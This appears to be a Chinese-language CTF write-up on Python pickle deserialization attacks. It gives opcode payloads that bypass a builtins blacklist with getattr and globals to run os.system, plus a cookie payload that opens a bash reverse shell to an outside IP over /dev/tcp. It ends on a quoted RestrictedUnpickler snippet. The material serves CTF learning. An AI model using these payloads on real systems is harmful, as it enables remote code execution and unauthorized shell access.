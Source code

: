 #### Code-Breaking:picklecode

题目将pickle能够引入的模块限定为`builtins`，并且设置了子模块黑名单：`{'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}`，于是我们能够**直接**利用的模块有：

- `builtins`模块中，黑名单外的子模块。
- 已经`import`的模块：`io`、`builtins`（需要先利用`builtins`模块中的函数）

黑名单中没有`getattr`，所以可以通过`getattr`获取`io`或`builtins`的子模块以及子模块的子模块:)，而`builtins`里有`eval、exec`等危险函数，即使在黑名单中，也可以通过`getattr`获得。pickle不能直接获取`builtins`一级模块，但可以通过`builtins.globals()`获得`builtins`；这样就可以执行任意代码了。payload为：

```
b'''cbuiltins
getattr
p0
(cbuiltins
dict
S'get'
tRp1
cbuiltins
globals
)Rp2
00g1
(g2
S'builtins'
tRp3
0g0
(g3
S'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''
```

#### watevrCTF-2019:Pickle Store

因为题目是黑盒，所以没有黑白名单限制，直接改cookie反弹shell即可。payload：

```
b'''cos
system
(S"bash -c 'bash -i >& /dev/tcp/192.168.11.21/8888 0>&1'"
tR.
'''
```

#### 高校战疫网络安全分享赛:webtmp

限制中，改写了`find_class`函数，只能生成`__main__`模块的pickle：

```
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__': # 只允许__main__模块
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```
